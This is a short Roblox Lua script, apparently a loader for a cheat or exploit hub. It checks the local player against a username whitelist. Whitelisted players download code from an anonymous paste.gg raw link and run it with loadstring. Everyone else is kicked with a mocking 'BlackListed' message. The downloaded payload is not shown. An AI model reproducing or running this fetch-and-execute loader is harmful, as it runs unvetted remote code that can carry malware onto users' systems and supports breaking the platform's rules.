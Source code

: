 -- gr1u updated whitelist

local WhitelistedUsernames = {
    ["Dragonblox836"] = true,
    ["torsotapper"] = true,
    ["widebodymhki"] = true,
    ["SoftX_ff"] = true,
    ["Dragonblox836"] = true
    
}

local Player = game.Players.LocalPlayer

local function isWhitelisted(player)
    local username = player.Name
    return WhitelistedUsernames[username] == true
end

if isWhitelisted(Player) then
    loadstring(game:HttpGet("https://paste.gg/p/anonymous/ec746110a98147efaefe0dd955e38264/files/65275454bab040e7a396cb4f19ca31f9/raw"))()
else
    game.Players.LocalPlayer:Kick("BlackListed - Restless.dreams DOESNT fwu😂.")
end
